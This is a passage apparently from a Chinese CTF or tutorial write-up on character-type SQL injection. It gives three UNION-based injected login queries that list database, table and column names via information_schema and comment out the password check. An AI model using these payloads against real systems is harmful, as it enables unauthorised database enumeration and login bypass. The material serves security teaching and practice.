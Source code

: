 

![image-20230426213252233](https://nssctf.wdf.ink//img/WDTJ/202304262132275.png)

那么接下来就和数字型注入相同 吧 `order by NUM` 换成对应的语句即可：

- 库名

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' union SELECT 1,schema_name,2 FROM information_schema.schemata;-- ' AND password='$password';
```

- 表名

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(table_name),2 from information_schema.tables where table_schema=database()-- ' AND password='$password';
```
- 字段名


```sql
SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(column_name),2 from information_schema.columns where table_schema=database()-- ' AND password='$password';
```


